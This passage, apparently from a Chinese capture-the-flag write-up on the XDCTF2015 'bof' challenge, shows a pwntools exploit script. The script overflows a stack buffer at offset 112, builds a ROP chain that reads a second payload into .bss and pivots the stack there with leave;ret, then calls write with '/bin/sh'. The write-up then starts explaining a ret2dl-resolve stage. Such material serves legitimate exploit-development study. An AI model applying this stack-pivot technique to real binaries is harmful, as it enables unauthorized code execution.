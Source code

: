 非ROP模块版：

```python
#!/usr/bin/python

from pwn import *
elf = ELF('main')
offset = 112
read_plt = elf.plt['read']
write_plt = elf.plt['write']

ppp_ret = 0x08048619 # ROPgadget --binary bof --only "pop|ret"
pop_ebp_ret = 0x0804861b
leave_ret = 0x08048458 # ROPgadget --binary bof --only "leave|ret"

stack_size = 0x800
bss_addr = 0x0804a040 # readelf -S bof | grep ".bss"
base_stage = bss_addr + stack_size

r = process('./bof')

r.recvuntil('Welcome to XDCTF2015~!\n')
payload = 'A' * offset
payload += p32(read_plt) # 读100个字节到base_stage
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret) # 把base_stage pop到ebp中
payload += p32(base_stage)
payload += p32(leave_ret) # mov esp, ebp ; pop ebp ;将esp指向base_stage
r.sendline(payload)

cmd = "/bin/sh"

payload2 = 'AAAA' # 接上一个payload的leave->pop ebp ; ret
payload2 += p32(write_plt)
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```

## 3.stage2

这里我们主要是利用 plt[0] 中的相关指令，即 push linkmap 以及跳转到 dl_resolve 函数中解析的指令。此外，我们还得单独提供一个 write 重定位项在 plt 表中的偏移。
